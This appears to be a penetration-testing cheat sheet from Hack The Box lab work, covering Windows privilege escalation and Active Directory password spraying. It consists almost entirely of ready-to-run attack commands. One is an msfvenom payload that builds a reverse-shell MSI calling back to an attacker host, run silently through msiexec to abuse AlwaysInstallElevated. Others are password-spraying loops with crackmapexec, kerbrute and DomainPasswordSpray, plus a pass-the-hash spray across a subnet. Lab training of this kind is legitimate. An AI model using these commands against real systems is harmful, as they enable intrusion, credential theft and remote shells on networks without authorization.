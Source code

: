 </aside>

```bash

PS C:\htb> Get-host
PS C:\htb> powershell.exe -version 2
```

## Am I Alone?

```bash
PS C:\htb> qwinsta
```

## **Always Install Elevated**

```powershell
#Enumerating Always Install Elevated Settings
PS C:\htb> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
PS C:\htb> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
#Generating MSI Package
Intrusionz3r0@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
#Executng MSI
C:\htb> msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

## Password Spraying

<aside>
⚠️

**Crackmapexec**: Pay attention to **Bad-Pwd-Count** value since this indicates the number of times the user tried to log on to the account using an incorrect password. Remember that we should run one, max two, password spraying attempts and wait over an hour between attempts.

</aside>

```powershell
#Interal Password Spraying (Linux)
Intrusionz3r0X@htb[/htb]$ for u in $(cat valid_ad_users);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
Intrusionz3r0X@htb[/htb]$ crackmapexec smb 172.16.5.5 -u valid_ad_users -p Password123 --continue-on-success
Intrusionz3r0X@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

#Local admin Password Spraying
#Make sure **-local-auth** flag is set so we don't potentially lock out the built-in administrator for the domain
Intrusionz3r0X@htb[/htb]$ sudo crackmapexec smb **--local-auth** 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf --continue-on-success

#Internal Password Spraying - from Windows
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
PS C:\htb> Invoke-DomainPasswordSpray -UserList <users> -Domain <domain-name> -PasswordList <password> -OutFile sprayed-creds.txt
```
